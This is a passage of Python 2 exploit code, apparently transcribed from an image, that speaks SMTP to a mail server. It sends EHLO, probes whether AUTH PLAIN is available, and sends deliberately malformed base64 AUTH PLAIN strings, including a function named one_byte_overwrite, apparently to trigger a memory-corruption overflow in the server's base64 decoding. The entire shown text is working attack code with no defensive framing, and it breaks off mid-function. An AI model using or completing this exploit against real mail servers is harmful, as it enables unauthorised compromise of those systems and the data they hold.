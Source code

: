         l = f.readline()
        if l == "":
          return ""

        if l.find("PLAIN") > -1:
          auth_plain_available = True

        if test:
          if len(l) > 70:
           sys.stdout.write(l[:70] + " ...\n")
           sys.stdout.flush()
          else:
           print l.strip("\r").strip("\n")

        data = data + l
        if data.find(delim) > -1:
         return data
        if l == "\n" or l == "":
         return ""
       return data

    def write(data):
       f.write(data + "\n")
    def ehlo(v):
       write("EHLO " + v)
       return readuntil('HELP')
    def unrec(v):
       write(v)
       readuntil('command')
    def auth_plain(v):
       encode = v.encode('base64').replace('\n','').replace('=','')
       write("AUTH PLAIN " + encode)
       l = f.readline()
       if test:
        if l.find("not advert") > -1 or l.find("not supported")> -1:
         raise Exception("NO AUTH PLAIN CONFIG")
        print l
    def auth_plain1(v):
       encode = v.encode('base64').replace('\n','').replace('=','')
       write("AUTH PLAIN " + encode)
       l = f.readline()
       if test:
        if l.find("Incorrect") > -1:
         raise Exception("WRONG DRIVER")
        if l.find("not advert") > -1 or l.find("not supported")> -1:
         raise Exception("NO AUTH PLAIN CONFIG")
        print l
    def auth_plain2(v,value):
       encode = v.encode('base64').replace('\n','').replace('=','')
       value = chr(value).encode('base64').replace('\n','').replace('=','')
       write("AUTH PLAIN " + encode[:-1] + value)
       l = f.readline()
       if test:
        if l.find("Incorrect") > -1:
         raise Exception("WRONG DRIVER")
        if l.find("not advert") > -1 or l.find("not supported")> -1:
         raise Exception("NO AUTH PLAIN CONFIG")
        print l
    def one_byte_overwrite():
       v = "C" * bufsize
       encode = v.encode('base64').replace('\n','').replace('=','')
       encode = encode[:-1] + "PE"
       write("AUTH PLAIN " + encode)
       l = f.readline()
       if test: